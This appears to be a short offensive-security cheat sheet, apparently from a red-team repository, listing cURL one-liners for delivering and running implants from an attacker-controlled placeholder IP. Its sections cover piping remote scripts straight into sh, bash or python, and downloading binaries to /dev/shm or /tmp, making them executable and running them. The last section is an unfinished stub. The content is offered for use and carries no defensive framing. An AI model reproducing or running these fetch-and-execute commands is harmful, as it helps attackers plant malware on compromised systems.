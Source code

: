 # cURL

## 01 - Fileless code execution

```
$ curl http[s]://<IP>/implant.sh | sh

$ curl http[s]://<IP>/implant.sh | bash

$ curl http[s]://<IP>/implant.py | python
```

## 02 - Dropping on memory

Download implant and execute it.

```
$ curl -o /dev/shm/implant http[s]://<IP>/implant && chmod +x /dev/shm/implant && /dev/shm/implant
```

## 03 - Dropping on disk

Download implant and execute it.

```
$ curl -o /tmp/implant http[s]://<IP>/implant && chmod +x /tmp/implant && /tmp/implant
```

## 03 - Compiled After Delivery

TODO: Fill this info

```
$ gcc
```